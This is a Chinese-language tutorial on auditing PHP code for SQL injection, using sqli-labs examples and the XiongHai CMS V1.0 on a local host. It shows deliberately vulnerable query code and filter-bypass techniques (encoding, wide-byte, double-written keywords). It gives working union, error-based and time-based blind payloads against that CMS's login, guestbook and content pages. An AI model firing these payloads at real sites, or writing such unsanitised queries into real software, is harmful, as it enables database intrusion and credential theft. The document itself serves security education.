






<!-- TOC -->autoauto- [0x00 简介](#0x00-简介)auto- [0x01 字符型注入](#0x01-字符型注入)auto- [0x02 编码类注入](#0x02-编码类注入)auto- [0x03 宽字节注入](#0x03-宽字节注入)auto- [0x04 过滤](#0x04-过滤)auto- [0x05 实战审计](#0x05-实战审计)autoauto<!-- /TOC -->
# 0x00 简介

为什么第一章我们学习，因为看这篇文章的朋友大概也看过我前面写的MySQL_wiki系列，这里来SQL注入的话我们能方便理解，同时sql注入也是审计中我们经常想要找到的，比较以来就getshell什么的也不现实这种漏洞也不多。

# 0x01 字符型注入

这里我们看到sqli-libs第一关的代码

```
<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables 
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);
// connectivity 
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}
?>

```
我们可以看到调用`$_GET['id']`获取参数内容，没有经过任何过来带入了SQL语句的查询，也就是代码没有任何过来且没开魔术引号，那么将会形成注入，如果开启魔术引号遇到数字型的我们还是能够注入的，因为`magic_quotes_gpc`只会转义单引号、双引号、反斜线、NULL，但是数字型注入我们可以不试用到这些。

```
http://127.0.0.1/sqli/Less-1/?id=-1%27union%20select%201,user(),3--%20+

```

# 0x02 编码类注入

有些为了业务需要他会把传入一些编码后的参数再解码带入数据库查询，我们常见的有base64编码，也有的程序会内置url解码，这类写法通常见于框架。

1.base64

```
<?php
include("../sql-connections/sql-connect.php");
$id=base64_decode($_GET['id']);
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
 
if ($row) {
    echo "id:".$row['id']."<br>";
    echo "用户名:".$row['username']."<br>";
    echo "密码:".$row['password']."<br>";
}else{
    print_r(mysql_error());
}
echo '<hr>';
echo "查询的语句是：$sql";
?>

```
传入的值base64解密后带入查询，这种注入魔术引号是没办法拦截的，当我们遇到网站为base64编码的参数时可以留意下。

```
http://127.0.0.1/sqli/Less-1/base64.php?id=JyB1bmlvbiBzZWxlY3QgMSx1c2VyKCksMyAtLSAr

```
2.urldecode

```
<?php
include("../sql-connections/sql-connect.php");
$id=urldecode($_GET['id']);
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
 
if ($row) {
    echo "id:".$row['id']."<br>";
    echo "用户名:".$row['username']."<br>";
    echo "密码:".$row['password']."<br>";
}else{
    print_r(mysql_error());
}
echo '<hr>';
echo "查询的语句是：$sql";
?>

```
因为接受的参数只会被url解码一次，传入的值不是魔术引号认识的值所以可以绕过

```
http://127.0.0.1/sqli/Less-1/base64.php?id=%2527union%20select%201,user(),3--%20+

```

# 0x03 宽字节注入

```
<?php
$conn = mysql_connect('localhost', 'root', 'root');
mysql_select_db("security",$conn);
mysql_query("set names 'gbk' ",$conn);
$id=urldecode($_GET['id']);
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
 
if ($row) {
    echo "id:".$row['id']."<br>";
    echo "用户名:".$row['username']."<br>";
    echo "密码:".$row['password']."<br>";
}else{
    print_r(mysql_error());
}
echo '<hr>';
echo "查询的语句是：$sql";
?>

```
网上有很多解释大家可以搜索一下我这里就不详细介绍了大概原因就是:

id=1'->id=1\'->id=1%5c%27

id=1%df'->id=1%df%5c%27->id=1%DF5C%27->id=1運'


当然还有其他各种类型的注入这里就不一一列举了，看了mysql系列文章的大概都知道，不知道的可以看看。

# 0x04 过滤

通常情况下一个成熟的cms是不存在不过滤的情况，一般的程序选择用函数来过滤比如`addslashes()`，也可以开启魔术引号，但是更多的程序它采用正则匹配来过滤，
使用不正确的匹配替换方式反而导致被绕过的机会更大，比如有的程序把`union` 替换为空，那么我们就可以双写`ununionion`绕过从而还可能绕过外部WAF,对于整数型一般采用`intval()`等字符转换，后期通过实战一步一步讲解。

# 0x05 实战审计

找了半天源码，还是用这款熊海CMS V1.0吧，这款CMS感觉不错，什么洞都有，非常适合我们学习审计，同时审计这个cms的文章很多，大家如果觉得我写的不如人意，还能看看别人。

首先我们审计对传入的参数如果想快速的看是否有全局过滤，不妨找个文件输出一下`$_POST`、`$_GET`等等。

```
echo $_POST['b'];
echo $_GET['a'];

```



没有全局过滤 我们来到后台登陆文件admin/files/login.php 看看login.php一般登陆存在注入的可能性还是很大的



很明显 带入查询的user没有经过任何过滤，同时输出了错误，所以可以用报错查询，当然你也选择万能密码。

payload:

```
user=1111' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))-- +&password=111&login=yes

```



在看看留言板 files/submit.php 



传入参数没有过滤



同时插入的时候，这里使用了`mysql_error()`所以可以用报错注入，否则只能使用盲注了。


payload:

```
cid=0&name='or updatexml(1,concat(0x7e,(version())),0) or'&mail=1111&url=http%3A%2F%2F1&content=%E9%98%BF%E5%BE%B7&save=%E6%8F%90%E4%BA%A4&randcode=&jz=1&tz=1
```

开始我们说过不是使用了过滤函数就万事大吉了，数字型注入可以不使用引号



我们看到传入的`cid`已经被`addslashes()`函数转义了，查询的地方都没啥问题，但是到浏览计数的时候调用了它，那么我们就可以使用盲注或者报错注入了，因为有错误回显。

payload：

```
http://127.0.0.1/xhcms/?r=content&cid=1%20and%20If(ascii(substr(database(),1,1))%3C10,0,sleep(10))

```

这个系统还有其他注入，想练手的自己下载审计一下，总体思路有用户交互的地方都有可能存在注入，这也是我们没有通读代码的一个审计思路。

